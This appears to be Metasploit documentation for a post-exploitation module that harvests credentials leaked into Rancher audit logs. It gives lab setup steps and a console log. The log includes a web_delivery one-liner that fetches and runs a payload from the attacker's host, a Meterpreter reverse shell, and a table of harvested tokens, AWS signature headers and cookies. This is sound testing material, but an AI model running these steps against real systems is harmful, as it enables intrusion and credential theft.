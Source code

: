 ## Vulnerable Application

Rancher versions between 2.6.0-2.6.13, 2.7.0-2.7.9, 2.8.0-2.8.1 inclusive
contain a vulnerability where sensitive data is leaked into the audit logs.
Rancher Audit Logging is an opt-in feature, only deployments that have it
enabled and have AUDIT_LEVEL set to 1 or above are impacted by this issue.

Tested against rancher 2.6.0 and 2.8.1.

### Install

Run the following docker command: 
`docker run -d --restart=unless-stopped -p 80:80 -p 443:443 -e AUDIT_LEVEL=3 -v /var/log/rancher/auditlog:/var/log/auditlog --privileged rancher/rancher:v2.6.0`

You'll now need to grab the install key via `docker logs`: `docker logs <docker_id> 2>&1 | grep "Bootstrap Password:"`

Lets now add some data for the logs:

1. Click Cluster Management
1. Select Cloud Credentials:
  1. Click the hamburger in the top left corner
  1. Select Cluster Management
  1. Click Cloud Credentials, and Create
  1. Pick Digital Ocean
    1. Fill in random data, it doesn't have to validate and be a live account
    1. Click Create. It will fail, but the audit logs we need have been written
  1. Pick Amazon
    1. Fill in random data, it doesn't have to validate and be a live account
    1. Click Create. It will fail, but the audit logs we need have been written
1. Click your user icon in the top right corner
  1. Select Accounts & API Keys
    1. Click Create API Key
    1. Give it a name and click create. Write down these values
  1. Perform a request via curl (on the docker image is easiest) which will generate more logs (but ultimately fail): 
`curl -H "X-Api-Auth-Header: <your bearer token>" -H "X-Amz-Security-Token: FINDME" -k https://172.17.0.2/v3/clusters`

## Verification Steps

1. Install the application and generate data
1. Start msfconsole
1. Get a shell
1. Do: `use post/linux/gather/rancher_audit_log_leak`
1. Do: `set session [#]`
1. Do: `run`
1. You should get a table of leaky fields found

## Options

### LOGFILE

The log file to analyze. Defaults to `/var/log/auditlog/rancher-api-audit.log`

## Scenarios

### Rancher 2.6.0 on Docker

```
[*] Processing rancher_logs.rb for ERB directives.
resource (rancher_logs.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (rancher_logs.rb)> set target 7
target => 7
resource (rancher_logs.rb)> set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (rancher_logs.rb)> set lhost 172.18.0.1
lhost => 172.18.0.1
resource (rancher_logs.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Using URL: http://172.18.0.1:8080/zpJT4e2V
[*] Server started.
[*] Run the following command on the target machine:
wget -qO gmZmOwc0 --no-check-certificate http://172.18.0.1:8080/zpJT4e2V; chmod +x gmZmOwc0; ./gmZmOwc0& disown
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.17.0.2:34252) at 2024-03-13 16:51:26 +0000
```

```
resource (rancher_logs.rb)> use post/linux/gather/rancher_audit_log_leak
resource (rancher_logs.rb)> set session 1
session => 1
resource (rancher_logs.rb)> set verbose true
verbose => true
msf6 post(linux/gather/rancher_audit_log_leak) > 
msf6 post(linux/gather/rancher_audit_log_leak) > run

[+] Rancher log saved to: /root/.msf4/loot/20240313165133_default_172.17.0.2_rancher.api.log_616439.txt
[+] Found X-Api-Auth-Header token-p6nzp:zcpscwmzbx2kvfdffl8lqlqv5564s98225zn5ds67rtnw5m4hcjlqs
[+] Found X-Amz-Security-Token FINDME
[+] Found X-Api-Auth-Header Bearer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[+] Found X-Api-Set-Cookie-Header: __cf_bm=2W30ytsdvsLv72Iok1yhwxxsb2vMTPSR7TBCwVZFSGA-1710342756-1.0.1.1-W82_TGzMA.9nV.Qan0XFdGijkdil8VjhuSHbCC85hD2XEsS9rEaR_IlX0X_hsDuDj52ULmlywjjTJZP5zkk503.D4IDGc30FExY2pUhDRyU; path=/; expires=Wed, 13-Mar-24 15:42:36 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
[+] Found X-Api-Auth-Header Bearer digital_ocean_access_token
[+] Found X-Api-Set-Cookie-Header: __cf_bm=MDIoCaX1Uv1po1JmVaiUvzljV4m9vovMhzjQBN36u2c-1710342849-1.0.1.1-GaceyvEmf5JRuEDxjuU.ByuyIEj6RtMkdN.QqbENHhCLLk.VLlSqn2kk6ykypIZqbpWgzQtOk6iamIROy456PtvgVL9PA3ZebG9CFh1y8IM; path=/; expires=Wed, 13-Mar-24 15:44:09 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=be70968f3e291c0dad80ea15daa220ab8e87d79b76f28e782319443a174aa626
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=32d930648433fbb8d4da9a26af23ec83ce0df0e9010e56da3b7ee2708cee0e75
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=6992fecba7ad5f33e0cf5ab5d86c4e7df8b332a74c861a5d3f05a65a5fbc9bed
[+] Leaked Information
==================

 Field                    Value                                                                                                                                                                       Location
 -----                    -----                                                                                                                                                                       --------
 Username                 admin                                                                                                                                                                       Requests
 X-Amz-Security-Token     FINDME                                                                                                                                                                      requestHeader
 X-Api-Auth-Header        token-p6nzp:zcpscwmzbx2kvfdffl8lqlqv5564s98225zn5ds67rtnw5m4hcjlqs                                                                                                          requestHeader
 X-Api-Auth-Header        Bearer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                                                                                                                       requestHeader
 X-Api-Auth-Header        Bearer digital_ocean_access_token                                                                                                                                           requestHeader
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=be70968f3e291c0dad80ea15daa220ab8e87d79b76f28e782319443a174aa626
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=32d930648433fbb8d4da9a26af23ec83ce0df0e9010e56da3b7ee2708cee0e75
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=6992fecba7ad5f33e0cf5ab5d86c4e7df8b332a74c861a5d3f05a65a5fbc9bed
 X-Api-Set-Cookie-Header  __cf_bm=2W30ytsdvsLv72Iok1yhwxxsb2vMTPSR7TBCwVZFSGA-1710342756-1.0.1.1-W82_TGzMA.9nV.Qan0XFdGijkdil8VjhuSHbCC85hD2XEsS9rEaR_IlX0X_hsDuDj52ULmlywjjTJZP5zkk503.D4IDGc30FExY  responseHeader
                          2pUhDRyU; path=/; expires=Wed, 13-Mar-24 15:42:36 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
 X-Api-Set-Cookie-Header  __cf_bm=MDIoCaX1Uv1po1JmVaiUvzljV4m9vovMhzjQBN36u2c-1710342849-1.0.1.1-GaceyvEmf5JRuEDxjuU.ByuyIEj6RtMkdN.QqbENHhCLLk.VLlSqn2kk6ykypIZqbpWgzQtOk6iamIROy456PtvgVL9PA3ZebG9  responseHeader
                          CFh1y8IM; path=/; expires=Wed, 13-Mar-24 15:44:09 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None

[*] Post module execution completed
msf6 post(linux/gather/rancher_audit_log_leak) > 
```

